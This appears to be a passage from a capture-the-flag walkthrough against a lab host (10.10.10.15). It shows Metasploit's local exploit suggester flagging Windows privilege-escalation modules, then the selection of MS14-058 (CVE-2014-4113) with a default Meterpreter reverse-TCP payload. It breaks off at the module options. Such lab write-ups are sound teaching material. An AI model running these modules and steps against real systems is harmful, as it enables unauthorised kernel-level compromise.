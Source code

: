 ```shell
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.15 - Valid modules for session 2:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/adobe_sandbox_adobecollabsync            No                       Cannot reliably check exploitability.
 9   exploit/windows/local/agnitum_outpost_acs                      No                       The target is not exploitable.
 10  exploit/windows/local/always_install_elevated                  No                       The target is not exploitable.

<-- SNIP -->

[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) >
```
I will use the second exploit second one **MS14–058** (`ms14_058_track_popup_menu`).

### MS14-058
A privilege escalation vulnerability (CVE-2014-4113) allows an attacker to run arbitrary code in kernel mode due to the kernel-mode driver improperly handling objects in memory.

```shell
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms14_058_track_popup_menu
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms14_058_track_popup_menu) > options

Module options (exploit/windows/local/ms14_058_track_popup_menu):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
```